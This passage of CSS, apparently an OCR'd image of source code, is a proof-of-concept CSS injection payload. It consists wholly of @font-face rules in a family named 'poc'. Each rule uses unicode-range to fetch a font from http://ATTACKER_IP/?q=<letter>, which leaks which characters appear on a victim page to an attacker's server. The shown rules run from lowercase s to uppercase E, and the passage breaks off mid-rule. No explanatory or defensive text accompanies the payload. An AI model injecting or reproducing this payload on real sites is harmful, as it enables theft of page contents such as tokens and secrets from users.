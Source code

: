 }
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=s);
    unicode-range: U+0073;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=t);
    unicode-range: U+0074;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=u);
    unicode-range: U+0075;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=v);
    unicode-range: U+0076;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=w);
    unicode-range: U+0077;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=x);
    unicode-range: U+0078;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=y);
    unicode-range: U+0079;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=z);
    unicode-range: U+007A;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=A);
    unicode-range: U+0041;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=B);
    unicode-range: U+0042;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=C);
    unicode-range: U+0043;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=D);
    unicode-range: U+0044;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=E);